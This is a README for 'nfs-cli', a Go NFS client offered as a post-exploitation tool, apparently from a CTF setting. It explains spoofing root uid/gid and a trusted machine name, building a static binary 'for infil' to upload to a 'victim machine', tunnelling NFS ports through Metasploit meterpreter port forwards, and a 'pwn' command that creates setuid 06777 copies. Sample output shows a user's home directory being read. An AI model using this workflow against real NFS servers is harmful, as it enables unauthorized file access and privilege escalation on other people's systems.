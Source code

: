 # nfs-cli

Simple cli for nfs. No NFS acls are bypassed or anything. This is not an exploit. You can set machine identifier, uid and gid though.

(And no, this doesn't work through a metasploit socks proxy, as go doesn't do obey proxychains.)

**It really shines when built static and uploaded to a victim machine**

## Usage
```sh
nfs-cli -machine iamallowed -uid 0 -gid 0 -target /path/to/exported/path -rhost remoteserver
```

Build static (for infil):
```sh
CGO_ENABLED=0 go build -a -ldflags '-extldflags "-static"' .
```

### Commands
Note: Don't include slashes in paths, this tool is pretty dumb.

- `ls` - list files i cwd
- `cd newdir` - change cwd
- `mkdir newdir` - create a directory (mode `06777`)
- `cat file` - view file
- `get file` - download file
- `put file` - upload file (mode `06777`)
- `rm file` - delete file
- `rmdir dir` - delete directory (and recursive)
- `pwn file` - copies `file` to `file.pwn` and sets mode `06777`

The suid-bit doesn't work unless you are root, not sure if this is nfs or the library.

## Example
Metasploit:
```
# we can't forward listening sockets
sudo systemctl stop portmap
sudo systemctl stop rpcbind.socket

sudo msfconsole -q   # 111 is privileged, see below for workaround
...
meterpreter > shell
Process XYZ created.
Channel ZYX created.
$ rpcinfo -a
   program vers proto   port  service
   ...
    100005    2   tcp  20048  mountd      <--this is the portnumber you want
   ...
$ exit
meterpreter > portfwd add -l 111 -L 0.0.0.0 -p 111 -r 127.0.0.1
meterpreter > portfwd add -l 2049 -L 0.0.0.0 -p 2049 -r 127.0.0.1
meterpreter > portfwd add -l 20048 -L 0.0.0.0 -p 20048 -r 127.0.0.1
```

Client:
```
./nfs-cli -uid 0 -gid 0 -machine iamtrusted -rhost localhost -target /home/james
[/home/james] .> ls
  [.                                       ]  1000: 1000 (00700) 129
  [..                                      ]     0:    0 (00000) 0
  [.bash_logout                            ]  1000: 1000 (00644) 18
  [.bash_profile                           ]  1000: 1000 (00644) 141
  [.bashrc                                 ]  1000: 1000 (00644) 312
  [.ssh                                    ]  1000: 1000 (00700) 61
  [.bash_history                           ]     0:    0 (00777) 9
  [user.flag                               ]  1000: 1000 (00644) 38
  [README.md                               ]  1000: 1000 (00777) 2785
[/home/james] .> pwn README.md
[/home/james] .> ls
  [.                                       ]  1000: 1000 (00700) 150
  [..                                      ]     0:    0 (00000) 0
  [.bash_logout                            ]  1000: 1000 (00644) 18
  [.bash_profile                           ]  1000: 1000 (00644) 141
  [.bashrc                                 ]  1000: 1000 (00644) 312
  [.ssh                                    ]  1000: 1000 (00700) 61
  [.bash_history                           ]     0:    0 (00777) 9
  [user.flag                               ]  1000: 1000 (00644) 38
  [README.md                               ]  1000: 1000 (00777) 2785
  [README.md.pwn                           ]     0:    0 (06777) 2785
[/home/james] .> 
```

## Alternative usage (non-priv)
```
git clone https://github.com/go-nfs/nfsv3.git
cd nfsv3
# copy main.go here
# edit nfs/rpc/portmap.go and change PmapPort to 9111
go run . -h
```

Now it's possible to `portfwd add -l 9111 -L 0.0.0.0 -p 111 -r 127.0.0.1` instead. No need to run `msfconsole` as root.
